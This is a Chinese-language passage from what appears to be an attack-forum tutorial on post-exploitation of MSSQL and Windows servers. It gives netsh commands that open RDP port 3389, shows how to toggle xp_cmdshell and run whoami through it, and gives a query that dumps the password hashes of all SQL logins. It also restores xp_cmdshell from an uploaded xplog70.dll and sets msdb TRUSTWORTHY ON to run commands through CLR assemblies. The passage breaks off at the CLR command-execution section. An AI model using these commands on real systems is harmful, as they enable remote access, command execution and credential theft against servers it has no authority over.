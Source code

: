 win 2003 下防火墙放行 rdp 端口

```php
# netsh firewall add portopening tcp 3389 "remote desktop"
# netsh firewall delete portopening tcp 3389
```

win2008 之后系统防火墙放行 rdp 端口

```php
# netsh advfirewall firewall add rule name="remote desktop" protocol=tcp dir=in localport=3389 action=allow
# netsh advfirewall firewall delete rule name="remote desktop" dir=in protocol=tcp localport=3389
```

### 禁用xp\_cmdshell

```php
exec sp_configure 'show advanced options', 1;reconfigure;
exec sp_configure 'xp_cmdshell', 0;reconfigure;
exec master..xp_cmdshell 'whoami';
```

撸掉mssql所有账户的密码备用

```php
SELECT name, password_hash FROM master.sys.sql_logins
```

### xp\_cmdshell被删除

通过上传xplog70.dll恢复

```php
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'
```

使用 CLR 程序集执行命令
==============

### 启用 CLR 与 GUI 集成

点击方面  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-d0bfa47eec4e5c8eb79eb986067c2aef7df655b3.png)  
将外围应用配置器的 ClrIntegrationEnabled 的值从 false 变为 true  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-504dd2c157387cddb680681005e1f4407577f3b5.png)  
右键msdb选择属性，发现可信为 false 且无法修改  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-a53051881256fa5755ca9795e78fdd4451a44291.png)  
使用命令将其设置为true

```php
ALTER DATABASE [msdb] SET TRUSTWORTHY ON
```

### 利用 CLR 程序集执行命令
